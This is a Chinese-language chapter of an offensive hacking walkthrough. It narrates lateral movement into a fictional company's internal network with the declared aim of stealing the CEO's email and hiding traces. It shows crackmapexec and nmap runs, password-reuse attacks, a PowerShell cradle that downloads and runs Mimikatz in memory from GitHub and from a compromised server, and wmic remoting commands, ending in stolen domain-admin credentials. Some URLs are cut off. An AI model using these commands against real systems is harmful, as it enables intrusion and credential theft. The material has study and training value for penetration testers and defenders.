



# 第四章、内网漫游

> 只有勇敢的老鼠才敢在猫眼前搭窝 -- *Earl Derr Biggers*

事情已经越来越有趣了。到目前为止，我们已经拥有以下资源:
- 控制了一台蓝区（即DMZ区）的Linux服务器
- 在蓝区不同 Windows 服务器上掌握了6个具备管理员权限的账号
- 建立了一条虚拟隧道可以访问蓝区内部的机器

接下来要做的事情，其实和之前大同小异，即端口发现、漏洞利用、破解密码。

但是，谨记我们的主要目标是：访问CEO的邮箱，窃取关键数据，当然还要尽可能隐藏攻击痕迹。

## 4.1 活动目录

为了正确遵循方案的其余部分，请务必了解活动目录（Active Directory，AD） 的一些基本知识。这一小章节通过明确介绍一些关键的 Active Directory 概念来达到这样的目的。如果你觉得你了解AD，你可以跳到下一节。

企业中的Windows计算机通常互联在一起以便于共享资源和统一配置管理。而互联正是使用Windows Active Directory。

Windows Active Directory的根节点称为Forest。其唯一目的是包含共享相似配置的域（机器组和用户组）[65]。每个域遵循着各自的策略（如密码强度，更新计划，用户帐户，计算机等）。

域控是一个控制和管理该域的Windows服务器。它是资源依赖于制定决策或轮询新设置的中心枢纽。网络越大，为了扩展性能则域控就越多。

以下2种用户被定义为可连接到域的计算机上：
- 哈希存储在本地服务器上的普通用户
- 哈希存储在域控上的域用户

因此，域用户没有连接到单个工作站，而是可以连接到域中的所有工作站（除非被禁止这样做）。但是，要在服务器上进行远程连接，用户需要该服务器上的远程桌面特权或管理员特权（本地或通过域）。

用户可以是仅在给定计算机上定义的本地组的一部分，也可以是在域级别（即在域控计算机上）定义的域组的一部分。

以下有三个主要域组，它们对域及其所有资源拥有完全控制权：
- Domain admin group（域管理员组）
- Enterprise admin group（企业管理员组）
- Domain Administrators（域管理员）

若能控制上述组的任一账户，那就拿下了整个公司的控制权[66]！

回过头看我们当前的状态，我们在公共DMZ区中入侵的Windows主机并没有连接到域上，不属于正式的内网，因为：域是一种内部资源，并且没有业务管理或对公共的Internet资源。在理想的情况下，会创建一个公共域（或Forest）来管理上述主机。当然，内部域和“外部”域之间不应存在信任关系。 SPH选择了一个更简单的选项：将其所有DMZ区的服务器从内部域中排除，并使用单个管理员密码进行管理。

接下来的各小节就是从“外围” Windows服务器渗透到域主机，并在域中实现提权。

## 4.2 我们要去哪？

我们知道蓝区位于私有网络192.168.1.0/24上，但是绿区（即内网）的地址呢？我们可以盲目地猜测其范围，但这并不有趣。

幸运的是，大多数情况下，DMZ服务器都会与个别内网主机通信交互，比如数据库，文件服务器，工作站等。这就是我们所需要的！

在任一一台控制的服务器上，我们运行一个简单的netstat命令来列出所有已建立的IP连接。
```#bash
FrontGun$ proxychains crackmapexec -u Administrator - p M4ster_@dmin_123 -d WORKGROUP 192.168.1.70 - x "netstat -ano | findstr ESTABLISHED"
```


IP 10.10.20.118绝对不是DMZ区网络的一部分。让我们试一试这个IP段。作为一个保守的黑客，我们先假设它是一个小型的24位C段网络，直到被证明不是。

## 4.3 密码重用

我们的攻击工具中有足够的密码字典，因此我们不一定会在此新IP段上寻找新的漏洞。毕竟，当我们可以模拟普通用户登录时，为什么还要查找复杂的漏洞？我们的策略是在所有Windows计算机上使用已经获得的凭据进行简单身份验证。

这不是典型的暴力破解攻击（一个帐户，多个密码），而是“成对的暴力破解” [67]：在每台计算机上，我们尝试使用相同的帐户/密码。因此，我们避免锁定帐户或触发任何检测规则[68]。

这个想法是要找到一台珍贵的连接域的计算机，且该计算机能接受我们获得的本地用户认证。我们需要的只是253台内部计算机中的一台。找到一个后，我们可以再次执行Mimikatz并获取更多密码。但是这次，我们可能会获得域帐户-甚至是特权域帐户。

首先，为缩小目标机的范围，我们启动nmap去扫描发现开放了445端口的目标主机，也包括3389端口，因为它可能总是有用的。

```#bash
FrontGun$ Proxychains nmap -n -p455,3389 10.10.20.0/24
Starting Nmap 7.00 ( https://nmap.org ) at 2016-12-26 22:56 CET
Nmap scan report for 10.10.20.27 445/tcp open	microsoft-ds 3389/tcp closed ms-wbt-server

Nmap scan report for 10.10.20.90 445/tcp open	microsoft-ds 3389/tcp filtered ms-wbt-server

Nmap scan report for 10.10.20.97 445/tcp open	microsoft-ds 3389/tcp closed ms-wbt-server

Nmap scan report for 10.10.20.118 445/tcp open microsoft-ds 3389/tcp open ms-wbt-server

Nmap scan report for 10.10.20.210 445/tcp open	microsoft-ds 3389/tcp filtered ms-wbt-server

Nmap scan report for 10.10.20.254 445/tcp filtered microsoft-ds 3389/tcp filtered ms-wbt-server
```

假设我们正在从蓝区访问这些服务器，可以预见到一些端口会被过滤。

在我们所有的帐户中，svc_mnt 是最有前途的帐户之一，它看起来像是一个用于管理某种应用程序的服务帐户。因此，相比其他账户，它在另一台服务器上被创建的可能性更高。我们使用该帐户启动 CME：
```#bash
FrontGun$ proxychains crackmapexec -u svc_mnt -p Hello5\!981 -d WORKGROUP 10.10.20.27 10.10.20.90 10.10.20.97 10.10.20.118 10.10.20.210
```


`提示：！在 bash 中有特殊含义，需转义，尤其是放在数字前时。因此，此处密码字段为\！。`

仅有几台主机像是接收svc_mnt，结果不是很好，另外，由于用户访问控制 （UAC），我们无法远程执行 Mimikatz.

UAC是Windows vista中引入的一个功能，在执行特权操作(软件安装等)之前，会弹出一个对话框来提示用户。因此，即使管理员也不能在系统上远程执行特权命令。但默认的管理员帐户在默认状况下不受UAC的约束[69]，这就是为什么它以前没有给我们带来太多麻烦的原因。

幸运的是，其中一台接受 svc_mnt的主机10.10.20.118的RDP 端口 （3389） 似乎已经打开。如果我们能在远程服务器上打开图形交互会话，那么UAC不再是问题了！

我们在Front Gun 服务器上启动 rdesktop（或 mstsc）并访问连接 svc_mnt 帐户。



然后，我们编写一个小脚本，下载powershell编写的Mimikatz，并仅在内存中使用IEX(调用表达式)命令执行它。

```#bash
$browser = New-Object System.Net.WebClient

$browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredential

IEX($browser.DownloadString("https://raw.githubuserco Mimikatz.ps1"))

invoke-Mimikatz
```

我们打开具有管理权限的命令提示符（右键单击>以管理员身份运行），然后执行脚本:
```#bash
10.10.20.118 > powershell -exec bypass .\letmein.ps1
```

我们耐心地等待几秒钟，但DowanloadString 代码执行滞后了，似乎是10.10.20.0/24 段上的主机无法访问互联网—至少在没有通过需要有效域凭据的代理的情况下不能访问internet，而我们还没有……

为了绕过这个限制，我们将 Invoke-Mimikatz.ps1 下载到我们之前入侵的 Linux 服务器，并运行一个简单的 HTTP 服务器使其可用:
```#bash
Career# wget https://raw.githubusercontent.com/PowerShellMafia/Powe Mimikatz.ps1
Career# python -m SimpleHTTPServer 443
```

我们更新 PowerShell 脚本来更新URL的变更，然后再次执行它:
```#bash
$browser = New-Object System.Net.WebClient

IEX($browser.DownloadString("http://192.168.1.46:443/I Mimikatz.ps1"))

invoke-Mimikatz
```


虽然我们可能还不是域管理员，但我想你应该看到了屏幕上弹出的本地管理员的密码：Dom_M_ster_P_ssword1。

看来域计算机与非域计算机具有不同的本地管理员帐户。 现在酷的是我们可以在所有共享这个相同管理员帐户的机器上执行一个Mimikatz。 当然，有时会命中，有时却会丢失，但是我们只需要在正确的时间在正确的计算机上连接一个域特权帐户即可！

通过DMZ区内控制的Front Gun服务器上建立的socks代理，我们将直接从10.10.20.118服务器执行minikatz，而不是通过CrackMapExec。这样我们就可以完全绕过防火墙的限制。(CME依赖RPC端口：135、49152到65535来远程执行Mimikatz，但在DMZ和内网之间的防火墙不太可能允许这样做。)

我们使用获得的管理员帐户打开 RDP 会话，并通过添加 -Computer switch修改脚本以支持在多台计算机上执行：
```#bash
$browser = New-Object System.Net.WebClient

IEX($browser.DownloadString("http://192.168.1.46:443/I Mimikatz.ps1"))

invoke-mimikatz -Computer FRSV27,FRSV210,FRSV229,FRSV97 |out-file result.txt -Append
```

这一次，Invoke-Mimikatz 将使用远程 PowerShell 执行创建远程线程（端口 5985 上的 WinRM 服务），然后将结果存储在result.txt 中。

`提示：当使用远程PowerShell执行时，应总是指定服务器的名称而不是IP地址(使用nslookup)。`

`提示： 如果未启用远程 PowerShell（端口 5985），我们可以使用 Windows 计算机的 WMI 命令修复它： wmic /user:administrator /password: Dom_M@ster_P@ssword1 /node:10.10.20.229 process call create " powershell enable-PSRemoting -force "`



你看看！我们已经收集到 60 多个密码。果然，我们发现一个可能具有有趣特权的帐户：adm_supreme。然后，我们查询"域管理员"组进一步确认：:


确实属于"域管理员"组。我们攻下了！

`提示：查询域资源（组，用户等）时，请记住必须使用有效的域帐户。 在上面的屏幕中，在执行“ net group”命令之前，我们使用adm_supreme帐户重新连接到10.10.20.118。`


深度分析
